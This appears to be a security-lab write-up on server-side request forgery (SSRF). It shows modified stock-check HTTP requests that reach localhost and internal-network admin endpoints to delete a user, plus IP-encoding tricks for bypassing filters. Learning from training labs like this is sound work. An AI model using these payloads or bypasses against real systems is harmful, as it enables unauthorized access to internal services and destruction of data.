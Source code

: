 ##### ***What is SSRF?***
SSRF is a web security vulnerability that allows an attacker to make requests to internal systems in the organizations infrastructure through the public web facing application. This could lead to the attacker gaining access to sensitive data and authorization credentials
##### ***Exploiting the local loop back interface when making a request***
A very basic SSRF attack might involve modifying a request to point to the web server's loop back interface, this could be `127.0.0.1` or `localhost`. This could reveal sensitive information that only admins or authorized users might be able to access. In this example, there is a stock check functionality that makes a request to an external back end system. Using the burp interceptor, I was able to change the request to the `localhost/admin` URL and get access to an admin dashboard to delete user's and manage the admin panel.
```
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

I intercepted the request and changed it to `http://localhost/admin` and I was able to access admin functionality and an admin dashboard.
```
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118

stockApi=http://localhost/admin
```

Although I could not delete users directly from the admin interface that was displayed after making the request because the request was still unauthorized. There was an endpoint `/admin/delete?username=carlos`, so I modified the original request to include this endpoint.
```
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118

stockApi=http://localhost/admin/delete?username=carlos
```

This worked and I was able to successfully delete the user "carlos."
##### ***Using SSRF to gain access to other back end systems***
This website was making a request to an external API on an internal private IP address `192.168.1.1:8080`. I was able to use the burp intruder to find another internal private IP address at `192.168.1.220` and successfully execute the admin functionality of deleting a user. 
```
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118

stockApi=http://192.168.1.<X>:8080
```

I then found the endpoint for deleting users and made this request to delete the `carlos` user.
```
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118

stockApi=http://192.168.1.220:8080/delete?username=carlos
```
##### ***Bypassing filters for blacklisted inputs***
Most of the time, WAFs will be blocking input containing specific keywords like `localhost`, `127.0.0.1`, `/admin`, etc... In order to bypass these, you can use different methods of encoding and obfuscating keywords to get around any filters.

These different encoding and obfuscation techniques may work for `127.0.0.1`:
- Decimal `2130706433`
- Octal `017700000001`
- Omitting every 0 `127.1`
- Hexadecimal  `0x7F000001`
- Zero-Padded Decimal `127.000.000.001`
- Mixed Octal and Decimal: You can mix octal and decimal representations in the same IP address. For example, `127.0.0.01` mixes decimal for the first, second, and third octets and octal for the fourth.
- Binary `01111111.00000000.00000000.00000001`
- URL Encoding `%7F%00%00%01`

I was able to bypass the filter and successfully delete the user by using this payload.
```
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118

stockApi=http://127.1/Admin/delete?username=carlos
```

